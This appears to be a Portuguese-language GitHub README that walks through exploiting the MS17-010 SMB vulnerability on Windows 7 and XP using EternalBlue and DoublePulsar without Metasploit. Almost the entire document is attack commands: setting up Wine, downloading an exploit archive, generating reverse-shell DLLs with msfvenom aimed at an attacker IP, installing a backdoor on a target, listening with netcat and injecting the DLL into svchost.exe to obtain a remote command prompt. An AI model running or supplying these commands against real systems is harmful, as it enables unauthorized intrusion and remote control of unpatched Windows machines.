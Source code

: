 # Eternalblue Doublepulsar (MS17-010)

Explorando Windows com EternalBlue (MS17-010) sem Metasploit.

Testado em:

- Windows 7 Ultimate 7601 Service Pack 1 (32 bits)
- Windows 7 Professional 7601 Service Pack 1 (64 bits)
- Windows XP Professional 2600 Service Pack 2 (32 bits)

#

### Preparando a máquina atacante:
Adicione a arquitetura i386 (para computadores 32 bits) no repositório.
```
dpkg --add-architecture i386
```
```
apt-get update
```
<br>

Realize a instalação dos pacotes libwine, wine, wine32 e winetricks.
```
apt-get install libwine wine wine32 winetricks
```
<br>

Após a instalação certifique-se que o **Wine** esteja instalado, em seguida execute o comando **exit** para sair do **Wine**.
```
wine cmd
```
<br>

Realize o download do exploit, descompacte o arquivo ms17-010.tar.gz.
<br>

https://github.com/caique-garbim/MS17-010/raw/main/ms17-010.tar.gz
```
tar xf ms17-010.tar.gz
```
```
cd ms17-010/
```
### Exploração
Gerando payload reverse shell non-staged com **msfvenom** para explorar Windows 32 bits
```
msfvenom -p windows/shell_reverse_tcp LHOST=172.20.1.53 LPORT=8080 -f dll > shell.dll
```

ou

Gerando payload reverse shell non-staged com **msfvenom** para explorar Windows 64 bits
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.20.1.53 LPORT=8080 -f dll > shell.dll
```
- IP da máquina atacante: 172.20.1.53
- Porta que irá receber a conexão reversa: 8080
<br>

Instalando backdoor no servidor alvo com EternalBlue (Windows 7):
```
wine Eternalblue-2.2.0.exe --TargetIp 172.16.1.145 --Target WIN72K8R2 --DaveProxyPort=0 --NetworkTimeout 60 --TargetPort 445 --VerifyTarget True --VerifyBackdoor True --MaxExploitAttempts 3 --GroomAllocations 12 --OutConfig 1.txt
```

ou

Instalando backdoor no servidor alvo com EternalBlue (Windows XP):
```
wine Eternalblue-2.2.0.exe --TargetIp 172.16.1.145 --Target XP --DaveProxyPort=0 --NetworkTimeout 60 --TargetPort 445 --VerifyTarget True --VerifyBackdoor True --MaxExploitAttempts 3 --GroomAllocations 12 --OutConfig 1.txt
```
- IP do servidor alvo: 172.16.1.145
<br>

Preparando a máquina atacante para receber a conexão reversa (em outro terminal):
```
rlwrap nc -vnlp 8080
```
<br>

Enviando shellcode para injetar DLL com DoublePulsar (para explorar Windows 32 bits):
```
wine Doublepulsar-1.3.1.exe --OutConfig 2.txt --TargetIp 172.16.1.145 --TargetPort 445 --DllPayload shell.dll --DllOrdinal 1 --ProcessName svchost.exe --ProcessCommandLine --Protocol SMB --Architecture x86 --Function Rundll
```

ou

Enviando shellcode para injetar DLL com DoublePulsar (para explorar Windows 64 bits):
```
wine Doublepulsar-1.3.1.exe --OutConfig 2.txt --TargetIp 172.16.1.145 --TargetPort 445 --DllPayload shell.dll --DllOrdinal 1 --ProcessName svchost.exe --ProcessCommandLine --Protocol SMB --Architecture x64 --Function Rundll
```
- IP do servidor alvo: 172.16.1.145
<br>
 
Observe que a conexão reversa foi estabelecida e foi obtido acesso ao prompt de comando do Windows:
![image](https://user-images.githubusercontent.com/76706456/172243037-3162bf1f-c6ad-45d6-a841-f9cd5cbc5c1b.png)
